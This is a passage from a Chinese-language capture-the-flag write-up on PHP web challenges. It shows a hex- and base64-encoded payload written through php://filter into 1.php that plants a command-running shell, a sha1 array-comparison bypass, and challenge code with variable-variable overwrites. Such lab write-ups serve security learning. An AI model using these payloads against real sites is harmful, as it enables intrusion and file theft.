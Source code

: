 再转化为ascii的十六进制

```
5044383959474e6864434171594473
```

我们发现这个很巧妙的里面只有一个字母e，但这里可以将其当成科学计数法，

payload

```
?v2=005044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
```



### web104

```
highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
} 
```

数组绕过，sha(a[])会返回null  而null==null



### web105

```
highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value;
}foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
if(!($_POST['flag']==$flag)){
    die($error);
}
echo "your are good".$flag."\n";
die($suces); 
```
